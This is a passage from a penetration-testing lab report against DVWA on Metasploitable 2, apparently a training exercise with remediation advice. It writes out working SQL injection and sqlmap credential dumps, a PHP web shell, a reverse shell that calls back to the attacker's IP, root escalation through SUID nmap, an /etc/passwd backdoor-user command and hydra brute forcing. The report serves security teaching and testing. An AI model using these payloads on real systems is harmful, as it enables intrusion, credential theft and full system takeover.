    **Result:**

    Using SQLmap's `--dump` flag, I extracted the entire `users` table from the `dvwa` database. The table contained usernames, names, avatar URLs, and MD5-hashed passwords.

    SQLmap successfully identified the hash type as `md5_generic_passwd`, and cracked all 5 user passwords using a dictionary-based attack:

    The full table dump was saved as `users.csv`, and confirms that user credentials can be fully exfiltrated due to SQL injection.

    - The created `users.csv` file can be copied from Kali path to the shared folder: 
        ```
        cp ~/.local/share/sqlmap/output/<metasploitable_ip>/dump/dvwa/users.csv /mnt/KaliShare/
        ```
    - See file [users.csv](./reports/users.csv)

    ⚠️ The MD5 algorithm is considered broken — and I just proved why.


**Step 6**: Identify Known Exploits 

- Now we know the DBMS version:
    ```
    MySQL 5.0.51a-3ubuntu5
    ```
- We can search for exploits using `searchsploit`:
    ```bash
    searchsploit mysql 5.0.51a
    ```
    These are publicly known exploits that apply to versions older than or equal to 5.0.51a — like the one running on Metasploitable 2.

    | Result Highlight                  | What It Means                                                           |
    | --------------------------------- | ----------------------------------------------------------------------- |
    | `Privilege Escalation`            | May allow an attacker to gain more access rights (e.g. root DB access)  |
    | `Denial of Service (DoS)`         | Could crash the MySQL service                                           |
    | `Remote` (e.g. remote/34796.txt)  | Exploitable over the network                                            |
    | `multiple/` or `linux/` path      | Works across platforms (Linux, Windows)                                 |
    | `.py`, `.txt`                     | The exploit is either a script or manual technique                      |

- See file [searchsploit_output_exploit.txt](./reports/searchsploit_output_exploit.txt)

    **Result:**

    Using `searchsploit`, I identified multiple public exploits targeting MySQL versions ≤ 5.0.51a, which matches the version found on the target (Metasploitable 2).

    The most relevant exploit is:
    ```
    Oracle MySQL < 5.1.50 - Privilege Escalation
    Path: multiple/remote/34796.txt
    ```
    - It's below my version (5.0.51a) → applicable
    - It's privilege escalation — highly valuable
    - It's a remote exploit — could work without local access
    
    This confirms that the current database version is known to be vulnerable to privilege escalation and denial-of-service vulnerabilities, highlighting the need for patching and tighter access control.


#### 3.3.2.2 Manual Browser-Based SQLi Option (optional)

To try SQLi manually in the browser, go to this path in Kali browser:
```
http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/
```

**Step 1**: Test for Basic Injection

- In the input box, type:
    ```
    1
    ```
    Click Submit.

- You get:
    ```
    ID: 1
    First name: admin
    Surname: admin
    ```

- This means:
    ```sql
    SELECT first_name, last_name FROM users WHERE user_id = 1;
    ```

**Step 2**: Test for Syntax Error

- Try this:
    ```
    '
    ```

- We get an SQL error:
    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1
    ```
- This confirms the input is directly inserted into a SQL query — it's injectable!

**Step 3**: Bypass the Logic with Boolean Injection

- Tested:
    ```
    1' OR '1'='1
    ```

- This produced an error: 
    ```
    You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\' OR \'1\'=\'1' at line 1
    ```
- Why? 
    - The `'` characters are being escaped to `\'`
    - This is part of DVWA's medium-level defense, which tries to sanitize user input

- On Low security, this should work.
- On Medium, some escaping is in place — so we need to evade the escaping.

**Solution:** Try Bypassing Escaping 

- On Medium, DVWA uses:
    ```php
    $id = addslashes($_GET['id']);
    ```
    So `'` becomes `\'`, breaking SQL.

- Try inputs that avoid using quotes:
    1. Numeric-only injection:
        ```
        1 OR 1=1
        ```
        This works because it's entirely numeric, so no escaping kicks in.
        - We can see `First name` and `Surname` of the users on the page
        
        - Screenshot of the manual numeric-only injection result:
        
        

    2. Try UNION:
        ```sql
        -1 UNION SELECT null, version() --
        ```
        - Shows the DBMS version on the page. 
        - Screenshot of the DBMS version result:
        
        

    3. Try guessing column count:
        ```sql
        -1 UNION SELECT null, null --
        ```
        - Produces no results
    
    4. Try getting DB name:
        ```sql
        -1 UNION SELECT null, database() --
        ```
        - Shows current DB name
        - Screenshot of the DB name result:
        
        

    5. Try dumping credentials:
        ```sql
        -1 UNION SELECT user, password FROM users --
        ```
        - Shows the password hashes for the usernames
        - Screenshot of the credentials dump result:
        
        

**Manual SQLi Results Summary:**

| Input                                          | Result                            |
| ---------------------------------------------- | --------------------------------- |
| `1`                                            | Returns one user                  |
| `'`                                            | Triggers SQL syntax error         |
| `1 OR 1=1`                                     | Returns all users                 |
| `-1 UNION SELECT null, version() --`           | Shows MySQL version               |
| `-1 UNION SELECT null, database() --`          | Shows current DB name             |
| `-1 UNION SELECT user, password FROM users --` | Dumps credentials                 |


#### 3.3.3. Potential Impact

The back-end database was confirmed to be `MySQL 5.0.51a`, running on `Ubuntu 8.04`, behind `Apache 2.2.8` and `PHP 5.2.4`. These findings enable further exploitation, including data extraction and potential privilege escalation.

Access to usernames, MD5 password hashes, and cracked credentials.

Once schemas are exposed:
- Attackers can enumerate users
- Extract hashed passwords
- Possibly modify or delete tables
- Escalate privileges using known exploits
- Pivot to other apps (e.g. `tikiwiki`, `metasploit` DBs)


#### 3.3.4 Risk Rating 

Critical

#### 3.3.5 Recommendations

- Vulnerability: User input is passed directly into SQL queries without sanitization.
- Recommendation:
    - Use prepared statements or parameterized queries.
    - Validate and sanitize all user input.
    - Employ web application firewalls (WAF).
    - Do not use MD5 hashing.
    - Do not save sensitive user information in the same database with normal user information (save encrypted login details into separate db/server, or other similar solution).

- Improves Security By:
    - Prevents attackers from injecting malicious SQL that could expose sensitive data or compromise the database.

---

### 3.4. File Upload Attack and Reverse Shell

File upload attacks can be used when an application allows users to upload files without proper validation, and e.g. a malicious PHP reverse shell can be uploaded and executed. 

#### 3.4.1 Description

Tested both creating my own PHP file disguised as an image file, and a Kali prebuilt PHP shell: `php-reverse-shell.php`. 

DVWA's file upload feature allowed bypassing file extension filters to upload a PHP shell, which was then executed to open a reverse shell. The shell connection was caught with `netcat`. 

Summary of the Concepts:

| Concept       | Description                                                                                                      |
| ------------- | ---------------------------------------------------------------------------------------------------------------- |
| `.php` file   | A server-side script in PHP that can execute code                                                                |
| Reverse Shell | A script that makes the vulnerable server connect back to your attacker machine and give you command-line access |
| Why PHP?      | DVWA and Metasploitable run on Apache+PHP; it allows us to upload and execute PHP code easily                    |


#### 3.4.2 Steps to Reproduce

Several failed attempts were made to create and upload a a simple and harmless custom-made `.php` file into DVWA. This report will include a summary of these attempts. Proper results are received with prebuilt `php-reverse-shell.php` available in Kali. 

#### 3.4.2.1 Simple Custom-made PHP File Disguised as an Image

**Step 1**: Create the PHP Test File in Kali Linux

- In Kali terminal, chose the home directory:
    ```bash
    cd ~
    nano test_upload.php
    ```
- Typed and saved the PHP code into the file.
    ```
    <?php
    echo "Hello from the test PHP file!";
    ?>
    ```

**Step 2**: Upload to DVWA

- On the DVWA upload form, browsed, selected and tried uploading my file: 
    ```
    http://<metasploitable_ip>/dvwa/vulnerabilities/upload/
    /home/kali/test_upload.php
    ```

- On Low security, DVWA might accept the `.php` file directly.
- On Medium security, we get an error: 
    ```
    Your image was not uploaded.
    ```
    - DVWA's `medium.php` upload script uses basic PHP code like:
        ```php
        if ( getimagesize( $_FILES[ 'uploaded' ][ 'tmp_name' ] ) == false )
        ```
    - This checks whether the uploaded file is an actual image (jpg, etc.) by inspecting its binary header, not just the file extension. So even if the file is named `test.jpg`, if the contents are PHP code (not image data), it will be rejected.
    - Screenshot of the failed `.php` file upload:
    
    


**Step 3**: Trick DVWA with a Valid Image + PHP Payload

- Tried combining an actual image with PHP code.

    1. E.g. copy a real image in Kali
        ```bash
        cp /usr/share/icons/hicolor/16x16/apps/kali-docs.jpg harmless.jpg
        ```

    2. Append PHP code to the image
        ```bash
        echo "<?php echo 'Executed!'; ?>" >> harmless.jpg
        ```
        - This creates a valid image file that also has PHP code at the end.

    3. Rename it to `.php.jpg` (bypass filter)
        ```bash
        mv harmless.jpg shell.php.jpg
        ```
        - Now we have a file:
            ```
            shell.php.jpg
            ```
            - It starts with valid image data
            - It ends with PHP code
            - It has `.jpg` extension

    4. Uploading the `shell.php.jpg` file gives this result: 
        ```
        ../../hackable/uploads/shell.php.jpg succesfully uploaded! 
        ```
        - Screenshot of successful PHP file upload with `.php.jpg` extension:
        
        

    5. Now if we were successful, visiting this URL should give the 'Executed!' text:
        ```
        http://<metasploitable_ip>/dvwa/hackable/uploads/shell.php.jpg
        ```
        - However, we hit another error, which tells us that:
            - PHP is trying to parse the file as code, but it's hitting image binary data first and choking on it.
            - This means:
                - We successfully bypassed the file filter
                - But the image part is confusing PHP before it reaches the `<?php` line
        - Screenshot of failing to perform the PHP file:
        
        


**Step 4**: Tried Several Fixes 

1. Making sure the image with injected PHP passes DVWA's `getimagesize()` check

2. Used `exiftool` (Stealth PHP Injection) to inject the PHP payload into the image metadata:
    ```bash
    exiftool -Comment='<?php system($_GET["cmd"]); ?>' harmless-image.jpg
    ```
    - This resulted in an error where PHP is trying to parse the entire JPEG image, starting at the binary image data — but it hits garbage again before reaching my PHP code.
    - Screenshot of failing to perform the PHP file with PHP payload in image metadata:

    

3. Creating a PHP file first to ensure the PHP code is at the very beginning of the file
    ```bash
    echo "<?php system(\$_GET['cmd']); ?>" > shell2.php.jpg
    ```
    - And then appending real image data to the end (so it passes `getimagesize()`):
        ```bash
        cat harmless-image2.jpg >> shell2.php.jpg
        ```

4. Renaming the file only after upload since I have `sudo` access to the Metasploitable 2 VM
    ```bash
    cd /var/www/dvwa/hackable/uploads/
    sudo mv shell2.php.jpg shell2.php
    ```
    - Screenshot of the renaming in Metasploitable:
    
    

    - Then visiting:
        ```bash
        http://<metasploitable_ip>/dvwa/hackable/uploads/shell2.php?cmd=whoami
        ```
    - Still produces a syntax error. 
    - PHP needs pure PHP text at the very top to run properly. Even a few stray image bytes before `<?php` will trigger the exact error we're seeing.

5. Testing a clean PHP file execution before appending image content
    ```bash
    php -S 0.0.0.0:8080
    ```
    - Then in Kali browser, go to:
        ```bash
        http://localhost:8080/shell_clean2.php?cmd=whoami
        ```
    - Saw `kali`, which confirms the file is valid.
    - But appending image data resulted in the same syntax error when trying to perform the PHP code again. DVWA on Medium security can be deceptively tricky when it comes to this file upload scenario. Instead of appending PHP to an image file and wrestling broken file formats, I will use a pre-made (clean, tested) reverse shell file.


#### 3.4.2.2 Prebuilt PHP Reverse Shell

Use the standard `php-reverse-shell.php` by Pentestmonkey, which:
- Starts clean
- Doesn't require any image bytes
- Just needs to be renamed and uploaded correctly

**Step 1**: Download the PHP reverse shell

- In Kali:
    ```bash
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
    ```
- Edit the file:
    ```bash
    nano shell.php
    ```
- Replace:
    ```php
    $ip = '127.0.0.1';
    $port = 1234;
    ```
- With your Kali IP address and a port you'll listen on, like:
    ```php
    $ip = '192.168.0.18';  // <-- your Kali IP
    $port = 4444;
    ```

**Step 2**: Rename for upload

```bash
mv shell.php shell_monkey.php.jpg
```

**Step 3**: Upload via DVWA Upload vulnerability page

- Once uploaded successfully, log into the Metasploitable terminal:
    ```bash
    cd /var/www/dvwa/hackable/uploads/
    sudo mv shell_monkey.php.jpg shell_monkey.php
    ```

**Step 4**: Prepare `netcat` listener on Kali to catch the Shell Connection

- In Kali terminal:
    ```bash
    nc -lvnp 4444
    ```

**Step 5**: Trigger reverse shell from browser

- Open:
    ```
    http://<metasploitable_ip>/dvwa/hackable/uploads/shell_monkey.php
    ```
- This loaded a PHP reverse shell payload on the Metasploitable 2 server, which executed and told the server to connect back to my Kali machine on port 4444.
    ```
    WARNING: Failed to daemonise. This is quite common and not fatal. Successfully opened reverse shell to 192.168.0.18:4444"
    ```
    - The warning means the shell couldn't run fully in the background ("daemonize"), but the connection still succeeded
    - Screenshot of successfully opened reverse shell:

    

    - Screenshot of starting `netcat` listener in Kali:

    

    **Result:**

    - The reverse shell worked exactly as intended.
    - I dropped into a shell running as a low-privilege user `www-data`, which is the Apache web server's user — typical for initial reverse shells.
    - `sh` means I'm in a basic Bourne shell, not a full interactive shell like `bash`.
    - `sh: no job control` tells us that common terminal features (e.g. Ctrl+C, arrow keys, command history, tab completion) won't work — that's a limited shell.
    - `sh-3.2$` is the prompt, and the number (`3.2`) indicates the shell version.


Next Step: Privilege Escalation


#### 3.4.3 Potential Impact

Full shell access as `www-data`. Now that the shell is working, we could:

1. Stabilize the shell (optional, but makes privilege escalation easier):
- Upgrade the shell to something more interactive 

2. Enumerate the system:
- Find OS info, kernel version, running services, and writable directories.
- Look for setuid binaries, crontabs, misconfigured sudo, or known local privilege escalation vulnerabilities.

3. Attempt privilege escalation:
- We can explore methods like kernel exploits, misconfigured permissions, or exploiting vulnerable binaries to gain root access


#### 3.4.4 Risk Rating 

Critical

#### 3.4.5 Recommendations

- Vulnerability: Upload form allows executable files (e.g. PHP shells) to be uploaded and executed.
- Recommendation:
    - Restrict uploads to specific file types (e.g. `.jpg`, `.png`) using both MIME type and extension checks.
    - Store uploads outside the web root.
    - Rename uploaded files and remove executable permissions.
    - Disable execution permissions in the upload directory (e.g. via `.htaccess` or server config).

- Improves Security By:
    - Prevents attackers from executing uploaded files as code and opening backdoors.

---

### 3.5. Privilege Escalation

Privilege Escalation is the process of gaining higher-level access, such as root, and it can be done via various methods, while a vulnerable SUID binary is accessed in this test set.

#### 3.5.1 Description

After gaining shell access as `www-data`, a privilege escalation was achieved using an SUID-enabled `nmap` binary.

Gained root via SUID-enabled legacy `nmap` binary.

Concept: 

In Linux, SUID (Set-User-ID) is a special permission flag that can be set on executable files.
- When a SUID bit is set, it means that any user who runs the file executes it with the file owner's privileges, not their own.
- Most commonly, the file owner is `root`, so when a low-privileged user runs a SUID binary, it temporarily gives them root permissions during its execution.


#### 3.5.2 Steps to Reproduce

**Step 1**: Check basic system info

- In the reverse shell, run:
    ```bash
    uname -a
    cat /etc/issue
    ```
- These give us the kernel version and OS architecture: 
    ```
    Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
    ```
- Screenshot of reverse shell kernel version:

    

- Kernel version: 2.6.24-16
- Architecture: i686 (32-bit)
- Distro: Ubuntu 8.04 (based on context and Metasploitable docs)
- This is an extremely old kernel (from 2008) — and known to be vulnerable to several local privilege escalation exploits

**Step 2**: Find out who I am

- Capture current user before privilege escalation:
    ```bash
    id
    whoami
    ```
- Screenshot of user before privilege escalation:

    

**Step 3**: Look for `sudo` permissions

- Check if `www-data` can run anything with elevated privileges:
    ```bash
    sudo -l
    ```
- It asks for a password, just hit `Enter`. 
    - Nothing happens, which means: 
        - The user `www-data` is not in the sudoers file, and has no sudo privileges.
        - This is expected. Most real-world web server users like `www-data` are intentionally restricted this way.
        - Since I was not prompted again or shown any list of allowed commands, that confirms there's no misconfigured sudo rule to exploit.

**Step 4**: Find SUID binaries

- SUID (set-user-ID) files run as their owner (usually root), not the current user. That means exploitable ones can be escalated to root.
- Run:
    ```bash
    find / -perm -u=s -type f 2>/dev/null | tee /tmp/suid.txt | head -n 20
    ```
- This will:
    - Search for all SUID files
    - Save results to `/tmp/suid.txt` for later
    - Show us the first 20, so we can spot anything promising like:
        - `/usr/bin/nmap`
        - `/usr/bin/python`
        - `/usr/bin/perl`
        - `/usr/bin/vim`
        - Or something custom or misconfigured, like custom binaries in `/home` or `/tmp`

    - Screenshot of reverse shell SUID files:

        

- The results show: 
    ```
    /usr/bin/nmap
    ```
    - This is very promising — because `nmap` with SUID bit set can be used to escalate to root, especially on older versions like the one in Metasploitable 2. 
        - Old versions of `nmap` (pre-5.21) had an interactive mode (`nmap --interactive`) which allowed users to execute system commands.
        - If that version is installed as SUID root, then any system commands executed through it will run with root privileges.

**Step 5**: Escalate Privileges:

- Run the following in the reverse shell:
    ```bash
    /usr/bin/nmap --interactive
    ```
- We get a prompt like this:
    ```shell
    Nmap>
    ```
- Then type:
    ```bash
    !sh
    ```
- This `!sh` tells `nmap` to spawn a shell.
- If successful, we will get a root shell. Now type:
    ```bash
    whoami
    ```
- It returns:
    ```bash
    root
    ```
- We've successfully escalated privileges to root!
- Screenshot of successful escalation to root privileges:

    

**Summary:**

- The vulnerable binary used: `/usr/bin/nmap`
- SUID bit allowed privilege escalation
- Version allowed interactive shell


**Step 6**: Further Actions

Having managed to gain root access, I studied other privilege escalation methods, as well as considered what could be done with the root privileges. 

- One of the most famous privilege escalation paths: Check for writable `passwd` file (Classic misconfiguration)
- If an attacker gains root-level access, they could theoretically e.g. modify `/etc/passwd` to insert a new user with UID 0 (root privileges). This could allow persistent root access even if the original vulnerability is patched later.

- Checked file permissions
    - Ran this in the reverse shell:
        ```bash
        ls -l /etc/passwd
        ```
    - It showed: 
        ```
        -rw-r--r-- 1 root root 1581 May 13 2012 /etc/passwd
        ```
    - The output in permissions terms:
        - `rw-` = read/write for owner (root)
        - `r--` = read-only for group
        - `r--` = read-only for others (me)
    - So I cannot write to `/etc/passwd` as `www-data`, but since I already have root access via the `nmap` trick, I could still edit `/etc/passwd` now, because I am effectively root

    - I could: 
        1. Create a password hash (in Kali)
            ```bash
            openssl passwd -1 hackerpass
            ```
            - Example output:
                ```
                $1$Hd9N8zFJ$h4E6vHCE6RKM8IbF3CKDJ/
                ```
        2. Add fake root user from root shell
            - In the **nmap→!sh** reverse shell (which is root), append a line to `/etc/passwd`:
                ```bash
                echo 'hacker:$1$Hd9N8zFJ$h4E6vHCE6RKM8IbF3CKDJ/:0:0:root:/root:/bin/bash' >> /etc/passwd
                ```
            - This creates a user `hacker` with root privileges.
        3. Switch to new user
            ```bash
            su hacker
            ```
            - Password is:
                ```
                hackerpass
                ```
            - Then check:
                ```bash
                whoami
                ```
            - If it returns `root`, you've demonstrated the "Writable passwd + custom user injection" method — a very common and powerful escalation trick.

    - In this demonstration, I did not modify the file but confirmed that it was readable and explained how the attack works.

#### 3.5.3 Potential Impact

- Full root access to the server.
- Complete system compromise.

#### 3.5.4 Risk Rating 

Critical

#### 3.5.5 Recommendations

- Vulnerability: A root-owned SUID binary (`nmap`) can be used to escalate to root.
- Recommendation:
    - Regularly audit SUID binaries and remove SUID permission from unnecessary tools.
    - Use tools like `find / -perm -4000` to locate them.
    - Use access control tools like AppArmor or SELinux to restrict execution.
    - Use least privilege principles.

- Improves Security By:
    - Reduces the chance that low-privileged users can exploit old binaries or configuration mistakes to gain root access.

---

### 3.6. Chained Exploit

A chained exploit means combining two or more vulnerabilities, where the first one enables the second.

```
Initial foothold → deeper control → full compromise
```

#### 3.6.1 Description

I first brute-forced a login using `hydra` and obtained valid credentials for a standard user (`gordonb:abc123`).

Once logged into DVWA, I was able to access the vulnerable SQL injection page.

By using `sqlmap` with the authenticated session cookie, I successfully dumped database contents, including user credentials and password hashes.


#### 3.6.2 Steps to Reproduce

**Step 1**: Use `hydra` to brute force non-admin credentials 

- Have `users.txt` and `passwords.txt` in the same folder where we run hydra
- Run: 
    ```bash
    hydra -L users.txt -P passwords.txt <metasploitable_ip> http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
    ```

**Step 2**: Login manually to DVWA as that user

- E.g. `gordonb` / `abc123`
- Click SQL Injection in the left sidebar (to confirm that login succeeded and you now have access to the vulnerable page that was previously locked unless authenticated)

**Step 3**: Use `sqlmap` with session cookie to exploit SQLi vulnerability

- Find session cookie in dev tools
- Run `sqlmap` from Kali terminal with the cookie to dump users
    ```bash
    sqlmap -u "http://<metasploitable_ip>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
    --cookie="PHPSESSID=abcd1234xyz; security=medium" \
    --batch \
    -D dvwa -T users --dump
    ```
- This will:
    - Reuse the brute-forced session
    - Exploit SQL injection
    - Dump the contents of the users table:
        - Shows user data, password hashes, and even cracks them

- Screenshots of the chained exploit: 

    
    

**Conclusion:**

- Brute Force alone: Only gets you credentials.
    - You can log in, but you haven't meaningfully compromised the system yet.
- SQL Injection alone: Can dump data, but requires an active session with access to the vulnerable form (DVWA Medium requires login).
    - Without a valid user session, you're locked out of the injection point.
- By combining them:
    - Brute Force gives you access
    - SQL Injection leverages that access to compromise the backend
- Together, they lead to data exposure and authenticated attack surfaces you couldn't reach otherwise.

- Why It's Considered "More Complex"
    - This simulates a real-world multi-step attack, like:
        - Step 1: Weak credentials
        - Step 2: Lateral movement or privilege escalation via injection
        - Step 3: Exfiltration or deeper compromise
    - Security professionals call this "post-auth SQLi" — and it's often more dangerous because it comes from inside a valid session, bypassing WAFs (firewalls) and logging alerts.


#### 3.6.3 Potential Impact

- Combining multiple weaknesses escalates the severity and reach of exploitation.
- This demonstrates how weak login protections can be chained with SQL vulnerabilities to compromise backend data.

#### 3.6.4 Risk Rating 

High

#### 3.6.5 Recommendations

- Secure authentication endpoints
- Restrict access to sensitive modules
- Validate input
- Prevent users from reusing weak passwords

---

## 4. Tools Used and Their Effectiveness

| Tool                    | Purpose                                                    | Effectiveness                                    |
|-------------------------|------------------------------------------------------------|--------------------------------------------------|
| `nmap`                  | Port scanning and service discovery + privilege escalation | Very High                                        |
| `netstat`               | See which ports are listening locally                      | Simple but has its uses                          |
| `Wireshark`             | Visual network traffic analysis                            | Useful for reconnaissance                        |
| `tcpdump`               | CLI-based network monitoring                               | Lightweight alternative for Wireshark            |
| `Zenmap`                | GUI network topology visualization                         | Useful for visual mapping                        |
| `draw.io`               | Visual network map creation                                | Useful for visual mapping without restraints     |
| `hydra`                 | Brute force login credentials                              | High                                             |
| Custom Python script    | Manual brute force login credentials                       | Useful with a limited db                         |
| `sqlmap`                | Automated SQL injection                                    | Very High                                        |
| `searchsploit`          | Searching for known exploits                               | High                                             |
| `netcat`                | Catching reverse shell                                     | Essential for shell access                       |
| `php-reverse-shell.php` | Prebuilt PHP reverse shell                                 | Very High                                        |

---

## 5. Limitations of the Test

As a whole:
- Scope was limited to DVWA on Metasploitable 2 in an isolated lab.
- No testing was conducted against real or production systems.
- Time constraints limited further testing (e.g. advanced pivoting, full enumeration).
- Root user modifications (e.g. adding users) were avoided for ethical reasons (even though the targets were running on VM).
- No created setups for actual chained penetration testing from one machine to another (several VMs / actual machines in a coherent network).

Brute force: 
- First attempts with custom wordlists failed. Wordlists were expanded and reused.
- Attempt with Kali built-in wordlist `rockyou.txt` also failed owing to its large size and too long processing time.
- Overall brute forcing in based on luck, and possibly allowing long processing times.

SQL Injection: 
- Failure based on manual typing of the session cookie 
- Could also produce failure on failing to be logged in while running the SQLi
- Manual SQL injection is more limited and a slower process, and more prone to syntax errors

File Upload Attack and Reverse Shell
- Custom PHP file disguised as an image file proved to be difficult.
    - PHP needs pure PHP text at the very top to run properly. Even a few stray image bytes before `<?php` will trigger a syntax error.
- Reverse shell was not stabilized with full TTY (teletype terminal) features, did'n daemonize.

Privilege Escalation
- Only SUID-enabled `nmap` binary was tested to gain root access.

Chained Exploit
- Only simple brute force + SQLi demonstrated owing to time-constraints and complexity of the alternatives.
- No user accounts were created or deleted to avoid corrupting DVWA.

---

## 6. Appendices

### A. Wordlists
**users.txt** and **passwords.txt** files used for brute force are stored in `/scripts`. (custom and rockyou samples)

### B. Custom Scripts
Python login brute force script provided in `scripts/brute_force_dvwa.py`

### C. Raw Tool Output
See `reports/` directory:
- Network maps:
    - [network_map.drawio.png](./reports/network_map.drawio.png)
    - [network-map.txt](./reports/network-map.txt)
- Network mapping results: 
    - Nmap full TCP port scan: [network-mapping-ports-nmap.txt](./reports/network-mapping-ports-nmap.txt)
    - Tcpdump network capture: [network-tcpdump-capture.pcap](./reports/network-tcpdump-capture.pcap)
    - Wireshark network capture with login data: [network-wireshark-dvwa-login1.pcap](./reports/network-wireshark-dvwa-login1.pcap)
    - Wireshark HTTP stream of the above network capture: [network-wireshark-dvwa-login-from-stream](./reports/network-wireshark-dvwa-login-from-stream)
- SQLi results:
    - 1st failed SQLmap output: [sqlmap_output1.txt](./reports/sqlmap_output1.txt)
    - Successful SQLmap output with banner data: [sqlmap_output2.txt](./reports/sqlmap_output2.txt)
    - SQLmap output with DB: [sqlmap_output3_all_db.txt](./reports/sqlmap_output3_all_db.txt)
    - SQLmap output with tables: [sqlmap_output4_get_tables.txt](./reports/sqlmap_output4_get_tables.txt)
    - SQLmap output with users table: [sqlmap_output5_dump_users_tables.txt](./reports/sqlmap_output5_dump_users_tables.txt)
    - Searchsploit exploits: [searchsploit_output_exploit.txt](./reports/searchsploit_output_exploit.txt)
    - SQLmap created full table dump: [users.csv](./reports/users.csv)

### D. Screenshots
Key screenshots are saved under the `screenshots/` directory, sorted under subfolders: 
- `/brute-force/` 
- `/chained-exploit/` 
- `/file-upload-attack/` 
- `/network-mapping/` 
- `/sql-injection/` 

---

**End of Report**
